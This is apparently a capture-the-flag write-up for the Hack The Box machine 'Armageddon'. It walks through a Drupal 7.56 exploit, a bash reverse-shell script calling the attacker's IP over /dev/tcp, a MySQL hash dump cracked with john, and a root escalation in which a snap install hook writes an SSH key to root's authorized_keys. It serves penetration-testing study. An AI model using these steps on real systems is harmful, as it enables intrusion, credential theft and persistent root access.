

# Armageddon

## Overview

Starting off a shell is gained using an exploit in the drupal instance running on the web port. Using the exploit a shell is gained on the box. Using this shell access is gained into the MySQL instance running on the box. From there the users from the drupal installation are dumped. Cracking one of the passwords grants access to the machine through SSH. In order to gain root snapd is used to install a package as root. From there a root shell is gained on the box and the box is complete.

## Enumeration

To begin with nmap is used to scan all the ports on the machine.

```bash
sudo nmap -p- 10.129.106.237 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 16:58 EDT
Nmap scan report for 10.129.106.237
Host is up (0.090s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 180.66 seconds
```

There are only 2 different ports that are open on the box port 22 and port 80. In order to get more information another nmap scan is run.

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/info 10.129.106.237
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 17:03 EDT
Nmap scan report for 10.129.106.237
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
```

### Port 80

Based on the robots.txt and the title of the page it appears to be a drupal website running on the machine. There is a tool called ```droopescan``` the can enumerate information off a drupal website. Using this tool the version is found to be ```7.56```

```bash
droopescan scan drupal -u http://10.129.106.237/
[+] Plugins found:
    profile http://10.129.106.237/modules/profile/
    php http://10.129.106.237/modules/php/
    image http://10.129.106.237/modules/image/

[+] Themes found:
    seven http://10.129.106.237/themes/seven/
    garland http://10.129.106.237/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.129.106.237/CHANGELOG.txt

[+] Scan finished (0:01:58.315916 elapsed)
```

## Exploiting

Searching for this drupal version using searchsploit there are a couple exploits that come up. 


Doing a quick google search turns up this [exploit](https://www.exploit-db.com/exploits/44449) in cases where metasploit is not wanted. Using this exploit we can upload a shell script that executes a reverse shell and run it. All we need to do is use curl to download the script. Then using the exploit which allows for code execution set it as executable and run it. The shell script simply executes a reverse shell by running ```bash shell.sh```.

### shell.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/80 0>&1
```

## Privilege Escalation

To begin with gaining root, a MySQL instance is located and the credentials for it were found in ```settings.php``` from the drupal installation. We can use file redirects to run commands through MySQL.  Here is an example of running a set of commands.  ```mysql -u {redacted} --password={redacted} < c.sql > out 2>&1```. This format to run commands was found [here](https://serverfault.com/questions/356567/mysql-not-to-print-selects-output-to-terminal). 

Here is an example of one of the command files.

```sql
use drupal;  
show tables;
```

Here is the file that dumped the users and their password hashes from the SQL database.

```sql
use drupal;  
select \* from users
```

Once we have the hases from the users table we can use john to crack the password. 

```bash
tc@ubuntu:/opt/john$ ./john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ~/htb/Armageddon/hash   
Using default input encoding: UTF-8  
Loaded 1 password hash (Drupal7, $S$ \[SHA512 256/256 AVX2 4x\])  
Cost 1 (iteration count) is 32768 for all loaded hashes  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
{redacted}           (?)  
1g 0:00:00:00 DONE (2021-04-01 21:25) 1.265g/s 293.6p/s 293.6c/s 293.6C/s tiffany..harley  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed
```

## User

Using the cracked password we can log into the compter with SSH. Once we are logged into the computer we find ourselves as the user with access to the user.txt file. From there running ```sudo -l``` we notice that we can install a package using snap as root.

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

In order to get root we need to create a new snap package that will give us access to the root user. 

I found a couple of different links that all helped in figuring out how to escalate privileges. [Here](https://www.exploit-db.com/exploits/46361) is an old exploit that pointed me to the hooks in a snap installation. This [link](https://snapcraft.io/docs/supported-snap-hooks) shows a list of all supported hooks in a snap package. There are 2 primary hooks that are of interest to us. The first is the ```install``` hook and the other is ```configure``` hook. Following along with the second link a snap package was setup and an install hook was used to write a ssh key for the root user. 

This picture shows where I put the install hook files. I am still not sure exactly which file was in the correct location but this file structure worked.



The script that was used to give a root shell saved a SSH public key to the root's ```authorized_keys``` file. Here is a copy of the script that added my SSH public key.

```bash
#!/bin/bash

mkdir -p /root/.ssh/
echo "{Key redacted}" >> /root/.ssh/authorized_keys
chmod 644 /root/.ssh/authorized_keys
touch /dev/shm/made
```

To install snapcraft there is a yaml file that needs to be edited as well. Listing the snaps that were on the system showed that there was only ```base: core```. Therefore I had to make sure that the base my app was using matched what was already installed.

Here is a full copy of my snapcraft.yaml file.

```bash
name: hello # you probably want to 'snapcraft register <name>'
base: core # the base snap is the execution environment for this snap
version: '0.1' # just for humans, typically '1.2+git' or '1.3.2'
summary: Single-line elevator pitch for your amazing snap # 79 char long summary
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel # must be 'stable' to release into candidate/stable channels
confinement: devmode # use 'strict' once you have the right plugs and slots

parts:
  gnu-hello:
    source: http://10.10.14.25/hello-2.10.tar.gz
    plugin: autotools
```

This was another [link](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy) that helped me understand snap packages. 

In order to build the snap package you can use a tool called ```snapcraft```. In my case to build the snap package I had to make sure snapcraft used ```lxd```. The command to build the package is ```snapcraft --use-lxd``` which is run in the folder with the snapcraft.yaml file. 

With the package all setup and uploaded to the victim machine all we need to go is install the package.

```bash
sudo /usr/bin/snap install --devmode --dangerous /dev/shm/hello_0.1_amd64.snap
```

Once the package is installed we can login to the root user with our ssh key.
